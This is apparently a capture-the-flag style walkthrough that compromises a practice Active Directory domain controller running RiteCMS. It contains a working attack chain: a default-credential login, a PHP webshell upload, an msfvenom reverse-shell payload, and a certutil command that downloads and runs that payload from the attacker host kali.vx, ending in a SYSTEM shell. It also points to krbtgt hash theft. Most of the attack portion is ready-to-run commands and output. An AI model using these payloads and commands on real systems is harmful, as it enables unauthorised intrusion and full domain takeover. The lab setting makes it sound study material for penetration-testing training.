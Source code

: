 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/s5puw0/attack_this_active_directory_machine_and_get_your/)|[YouTube](https://www.youtube.com/watch?v=MPrJF3F4mHc)|[Download](https://drive.google.com/file/d/1qCyMsfU6wx67wqV9OEavFYyg66g4QXjK/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.38
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 19:33 +08
Nmap scan report for 10.0.88.38
Host is up (0.0029s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
|_http-title: RiteCMS 3.0 demo - home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
| http-robots.txt: 1 disallowed entry
|_1
|_http-generator: RiteCMS 3.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-06 11:34:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-robots.txt: 1 disallowed entry
|_1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
|_http-generator: RiteCMS 3.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: RiteCMS 3.0 demo - home
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, NULL, SSLSessionReq:
|_    Host '192.168.17.10' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-12-05T11:24:42
|_Not valid after:  2023-06-06T11:24:42
| rdp-ntlm-info:
|   Target_Name: WINDOMAIN
|   NetBIOS_Domain_Name: WINDOMAIN
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: windomain.local
|   DNS_Computer_Name: dc.windomain.local
|   DNS_Tree_Name: windomain.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-06T11:35:19+00:00
|_ssl-date: 2022-12-06T11:35:29+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49858/tcp open  msrpc         Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

The target has RiteCMS on HTTP and HTTPS, searching for it on **Exploit-DB** returns a plausible [RCE exploit](https://www.exploit-db.com/exploits/50616).

The exploit requires admin on RiteCMS to upload a webshell file, googling for RiteCMS default login show admin/admin as the login

☝️ Always check for default login, it may not work most of the time in real life, but it saves a lot of time when it actually does

The exploit details provides a simple webshell code: `<?php system($_GET[base64_decode('Y21k')]);?>`

`base64_decode('Y21k')` = `cmd`; the webshell will execute the command that in the `cmd` parameter passed to the web server via `GET` method

Save the code as `webshell.pHp` and upload to `File Manager`:

![image](https://user-images.githubusercontent.com/90442032/205908195-9b7742af-c567-4b2c-b380-9a8396d9a6db.png)

Test the webshell:

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=whoami%20%2Fgroups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Well done, we got a `SYSTEM`-level RCE, let's try to get a shell

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Getting the target to download and run the reverse shell:

☝️ The command we want to run is `certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\reverse.exe`, but since we are running it from URL, we need to [URL encode](https://www.urlencoder.org/) the command

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=certutil.exe%20%2Furlcache%20%2Ff%20%2Fsplit%20http%3A%2F%2Fkali.vx%2Freverse.exe%20%26%26%20.%5Creverse.exe
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.38] 50689
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\media>whoami
whoami
nt authority\system

C:\xampp\htdocs\media>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Excellent, we now have `SYSTEM`-level shell on the target

# 4. Attacking Active Directory

Since we already have a `SYSTEM`-level shell on a domain controller, we can get on directly to retrieving the `krbtgt` hash in [attacking the Active Directory](../../attacking-active-directory.md#5-golden-ticket)
